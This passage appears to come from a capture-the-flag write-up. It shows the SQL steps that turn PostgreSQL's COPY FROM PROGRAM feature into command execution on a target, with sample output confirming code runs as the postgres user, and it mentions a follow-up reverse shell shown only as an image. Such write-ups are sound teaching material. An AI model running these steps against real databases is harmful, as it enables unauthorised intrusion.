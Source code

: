 #### RCE POC

I can use this to enumerate the database, but there’s nothing really important
there to find.

[This post](https://medium.com/greenwolf-security/authenticated-arbitrary-
command-execution-on-postgresql-9-3-latest-cd18945914d5) talks about turning
Postgres queries into command execution, which was given the ID CVE-2019-9193.
It’s not really a CVE as much as it is a feature that is easily abused.

The post outlines the following steps:

  1. `DROP TABLE IF EXISTS cmd_exec;` \- remove the `cmd_exec` table if it exists; this returns a `results` structure with no values.

  2. `CREATE TABLE cmd_exec(cmd_output text);` \- create a table to store command output in; this returns a `results` structure with no values.

  3. `COPY cmd_exec FROM PROGRAM 'id';` \- get the results of the `id` command into the table; this returns a `results` structure with no values. It is important to get regularly single quotes, not the fancy once that copy out of the post.

  4. `SELECT * FROM cmd_exec;` \- display the results - this returns a `results` structure with a bunch of stuff, most importantly:
    
        "data": {
        "values": [
            [
                "uid=114(postgres) gid=120(postgres) groups=120(postgres),119(ssl-cert)"
            ]
        ]
    }
    

That’s RCE!

#### Shell

To get a shell, I don’t have to recreate the table or worry about the output.
I’ll pull up the third command above and replace `id` with a [bash reverse
shell](https://www.youtube.com/watch?v=OjkVep2EIlw):

![image-20230831162307047](../img/image-20230831162307047.png)
